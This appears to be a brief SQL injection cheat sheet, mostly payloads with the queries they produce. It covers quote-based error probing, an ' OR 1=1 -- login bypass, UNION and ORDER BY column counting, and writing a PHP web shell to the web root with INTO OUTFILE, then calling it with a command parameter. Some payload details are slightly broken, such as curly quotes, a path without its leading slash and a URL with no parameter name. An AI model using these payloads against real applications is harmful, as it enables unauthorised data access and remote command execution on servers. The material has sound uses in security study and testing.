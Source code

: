 # SQL Injection

* Cause Error on the Web Application by input quote '

```text
SELECT * FROM users WHERE username = ''' AND password = ''
```

* Data Exfiltration by input ' OR 1=1 --

```text
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

* Gaining Shell

First check the number of column with NULL or 1

```text
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```text
SELECT * FROM users WHERE username = 'a' 
UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL INTO OUTFILE 'var/www/cmd.php';--' AND password = ''
```

Access the web page

```text
http://yourIPaddress/cmd.php?=[command]
```

## SQL Injection Basic Techniques

Check number of columns by order by

'''
' ORDER BY 1;#
' ORDER BY 2;#
' ORDER BY 3;#
'''
